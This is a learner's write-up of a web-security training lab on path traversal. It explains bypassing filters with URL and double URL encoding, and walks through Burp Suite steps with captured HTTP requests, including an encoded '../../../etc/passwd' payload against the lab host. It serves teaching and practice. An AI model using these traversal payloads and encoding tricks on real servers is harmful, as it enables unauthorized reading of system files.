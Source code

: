 
In some contexts, such as in a URL path or the filename parameter of a multipart/form-data request, web servers may strip any directory traversal sequences before passing your input to the application. You can sometimes bypass this kind of sanitization by URL encoding, or even double URL encoding, the ../ characters. This results in %2e%2e%2f and %252e%252e%252f respectively. Various non-standard encodings, such as ..%c0%af or ..%ef%bc%8f, may also work.

## Write-up

1) lets start
2) I opened Burp-suite and immediately launched the browser in the **proxy** tab.
3) I pasted the Lab's link and intercepted it .
4) Then i chose a GET request : 

```Request in Proxy
GET /image?filename=13.jpg HTTP/2
Host: 0a6e009904051dfa81dad0f1004a00b7.web-security-academy.net
Cookie: session=fCnHEMGVGwXaQOOsbF49ze5ZLWYQa8xX
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a6e009904051dfa81dad0f1004a00b7.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=2, i
```

6) Then I sent that **GET Request** to the repeater for tweaking it a bit. 
7) I tried previous methods and it failed.
8) So, I watched a video on how to URL-encode in burp-suite, and it was quite straightforward.
9) After sending the request in Repeater tab, just type the path traversal sequence `../../../etc/passwd` like before, and select that path, **Right-click** then find **Convert** upon hovering it, you will see **URL-encode** then **encode all**.
10) It looks like this the first time:

```Request in Repeater
GET /image?filename=%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64 HTTP/2
Host: 0a99006f03f55d90816a843b00600019.web-security-academy.net
Cookie: session=aSg0JHyIbwrAhaGXUtZKIaCbxEHTghi2
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a99006f03f55d90816a843b00600019.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=2, i
```

11) After sending the request we still couldn't exploit it, then i remembered that in this lab the URL gets decoded and the request get accepted. 
12) After watching the video, i was affirmed that i needed to encode that encoded path once again
13) After hitting **Send** it worked, the website had been exploited!
14) Although many things went over my head, it's fun to learn new things everyday.